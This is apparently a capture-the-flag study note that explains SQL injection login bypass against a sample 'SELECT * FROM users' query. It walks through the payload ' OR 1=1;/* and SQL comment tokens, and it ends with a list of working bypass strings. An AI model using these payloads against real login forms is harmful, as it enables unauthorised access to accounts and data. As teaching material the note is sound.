SQL injection (SQLi) is a well-known web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. ([Source](https://portswigger.net/web-security/sql-injection))

This note may be expanded in future. Challenges that require SQLi:
* SQL Direct : [*click*](../content/Web%20Exploitation/SQL%20Direct.md)
* SQLiLite : [*click*](../content/Web%20Exploitation/SQLiLite.md) 
* More SQLi : [*click*](../content/Web%20Exploitation/More%20SQLi.md) 

Let's assume that the application queries the database with the following SQL query:


```sql
SELECT * FROM users WHERE name='USERNAME' AND password='PASSWORD'
```


To dump all users, we will inject into the `name` field. To do this, our payload must meet the following conditions:



* close the `name` field: `name=' '`
* add a condition that always returns `true`
* truncate the rest of the query 

For the last condition, we need to know what comments or query endings look like in SQL:

```sql
#
--
/* */ (open close)
;%00	(nullbyte)
;     (end of query)
```

For example payload `' OR 1=1;/*`

`'`- closes the bracket for the `name` field, ending an empty line

`OR 1=1` - adds a condition that is **always true**:



* `1=1` always equals `true`
* Because of the operator `OR`, even if `name=' '` is `false`, the entire expression becomes `true`. The operator assumes that if **ONE** condition of the expression is *true*, then the entire expression is *true*. ([Logical disjunction](https://en.wikipedia.org/wiki/Logical_disjunction))

  ![Logical disjunction schema](../content/assets/images/Logical_disjunction.png)

* `--` - This is a comment in SQL that disables the rest of the query after it (comments it out). You can try the same thing with the end-of-query symbol `;`.



Let's insert the aforementioned payload:


```sql
SELECT * FROM users WHERE name='' OR 1=1;/*' AND password='PASSWORD'
```


 \
`/*` – Everything that follows this part will be considered a comment and will not be executed. Although `name='' ` is empty, the condition `OR 1=1 ` will force the entire expression to be *true*.

Taking into account the three rules above, you can construct injections yourself, which I did while completing the `SQLiLite` task: \
<pre class="prettyprint">
' OR 1=1 --";
' OR 1=1;--' 
' OR 1=1;--  
' OR 1=1;    
''' OR 1=1;  
''''' OR 1=1; # odd number in the payload required
' or true /*
' OR 1=1 /*
1' or 1 /* 
232435.11' or 12312.22 /* # every int/float/double number passes
' OR 1=1 --"
1' OR 12666;%00 # every int/float/double number passes
33' OR 1=1 -- </pre>




Let's look at some examples `''' OR 1=1;` and  `''''' OR 1=1;` :


```sql
SELECT * FROM users WHERE name='''' OR 1=1;--' AND password='PASSWORD'
```


Make sure that the payload starts with an odd number of brackets so that the last one is **closing** for the field.

